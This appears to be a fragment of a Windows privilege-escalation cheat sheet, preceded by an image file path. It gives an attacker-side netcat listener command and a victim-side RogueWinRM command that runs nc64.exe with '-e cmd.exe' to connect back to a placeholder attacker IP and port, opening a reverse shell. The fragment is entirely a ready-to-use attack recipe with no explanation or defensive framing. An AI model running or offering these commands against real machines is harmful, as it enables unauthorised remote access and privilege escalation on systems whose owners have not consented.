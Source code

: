 Attacker

	 nc -lvp [port]

Victim

	c:\tools\RogueWinRM\RogueWinRM.exe -p "C:\tools\nc64.exe" -a "-e cmd.exe [ATTACKER_IP] [4242]"